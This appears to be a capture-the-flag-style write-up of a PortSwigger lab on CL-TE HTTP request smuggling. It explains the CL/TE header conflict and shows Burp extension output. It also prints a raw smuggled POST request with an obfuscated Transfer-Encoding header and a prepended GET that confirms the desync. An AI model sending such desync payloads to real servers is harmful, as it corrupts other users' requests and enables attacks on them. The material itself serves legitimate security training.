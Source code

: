 ### HTTP request smuggling
#### Basic information
+ HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users.
Most HTTP request smuggling vulnerabilities arise because the HTTP specification provides two different ways to specify where a request ends: the <b>Content-Length header (CL) and the Transfer-Encoding header(TE)</b>. 
The Transfer-Encoding header can be used to specify that the message body uses chunked encoding. This means that the message body contains one or more chunks of data.<br>
Since the HTTP specification provides two different methods for specifying the length of HTTP messages, it is possible for a single message to use both methods at once, such that they conflict with each other. The HTTP specification attempts to prevent this problem by stating that if both the Content-Length and Transfer-Encoding headers are present, then the Content-Length header should be ignored.<br>
If the front-end and back-end servers behave differently in relation to the (possibly obfuscated) <b>Transfer-Encoding header</b>, then they might disagree about the boundaries between successive requests, leading to request smuggling vulnerabilities. The following scenarios are possible:
1. CL-TE: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header
1. TE-CL: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header
1. TE-TE: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way
#### Lab enviroment
In the lab the front-end server doesn't support chunked encoding. The application is also vulnerable to reflected XSS via the User-Agent header.
To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes <b>alert(1)</b><br><i>Note: you must have HTTP Request Smuggler extention installed in Burp</i>
#### Steps
<i>Note 2: my lab ID will change during the following steps, so you could find some discrepancies between images and the source code</i>
First we need to verify if the application is vulnerable to HTTP request smuggling (AKA desync attack), so lets proceed to analyze the request for a comment subsmission. 
First verify that the HTPP request smuggler extension is installed: click to Extension (1), then verify that the Smuggler is listed (2), eventually go BApp Store (3) and proceed to the installation. I suggest to set the Output (4) to Save to a file
<br>![img](./img/64.png)<br>
In the output we will get the report with the results of the externsion's execution.

Now lets proceed to use the HTTP Request Smuggler, to do that right-click into the Request body and choose Smuggle probe (click Ok in the configuration windows that appears, if you don't see the OK button just hit enter):
<br>![img](./img/65.png)<br>
Wait a couple of minute (or tail the file) to get the result that indicates that the application could be prone to CL-TE desyn vulnerability:
```
Updating active thread pool size to 8
Loop 0
Queued 1 attacks from 1 requests in 0 seconds
Unexpected report with response
Found issue: Possible HTTP Request Smuggling: CL.TE multiCase (delayed response)
Target: https://0a57004604fdbb11c0900dc7003c00ec.web-security-academy.net
Burp issued a request, and got a response. Burp then issued the same request, but with a shorter Content-Length, and got a timeout.<br/> 
This suggests that the front-end system is using the Content-Length header, and the backend is using the Transfer-Encoding: chunked header. 
You should be able to manually verify this using the Repeater, provided you uncheck the 'Update Content-Length' setting on the top menu. 
<br/>As such, it may be vulnerable to HTTP Desync attacks, aka Request Smuggling. 
<br/>To attempt an actual Desync attack, right click on the attached request and choose 'Desync attack'. 
Please note that this is not risk-free - other genuine visitors to the site may be affected.<br/>
...
```
As suggested we should be able to manually test the vulnerability using a payload provided in the report. Scrolling the result we can choose the following:
```
...
POST /post/comment HTTP/1.1
Host: 0a5a006c0402c03dc28a0626008b0066.web-security-academy.net
Cookie: session=mPoMTxbv2et0e1oSHkM0znnd5e8HAxOZ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 353
Origin: https://0a5a006c0402c03dc28a0626008b0066.web-security-academy.net
Referer: https://0a5a006c0402c03dc28a0626008b0066.web-security-academy.net/post?postId=4
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
tRANSFER-ENCODING: chunked

d2
csrf=mehaXubNbgLch7KliIBrrnEJX8LHness&userAgent=Mozilla%2F5.0+%28Windows+NT+10.0%3B+Win64%3B+x64%3B+rv%3A108.0%29+Gecko%2F20100101+Firefox%2F108.0&postId=4&comment=ciao&name=zinz&email=zinz%40libero.it&website=
0

GET /?x=5u0ddwptlhzwzk0kkdjae3bt9kfc31/0a57004604fdbb11c0900dc7003c00ec.web-security-academy.net HTTP/1.1
Host: 52.16.21.24
Foo: x
...
```
Copy and paste the request into Reapeter, morover I modified the GET as follows (we have then to adjust the Content-Length in accords as shown in the next image):
```
GET /invalid_URL HTTP/1.1
Foo: x
```
Then the above two lines of the request should be treated by the back-end server as belonging to the next valid request that is received. Since this request contains an invalid URL, the server will respond with status code 404, indicating that the attack request did indeed interfere with it. Submitting the modified request we can notice that the server respond correctly with a redirect (1), but following the redirection (2), since our GET instruction was prepended to the subsequent request, will cause a 404 error trying to reach the invalid url
<br>![img](./img/66.png)<br>
Following the redirect:
<br>![img](./img/67.png)<br>

Now that we have found the desync vulnerability we need to find the reflected vulnerability.



#### Reference
+ https://portswigger.net/web-security/request-smuggling
+ https://portswigger.net/web-security/request-smuggling/finding
+ https://portswigger.net/web-security/request-smuggling/exploiting

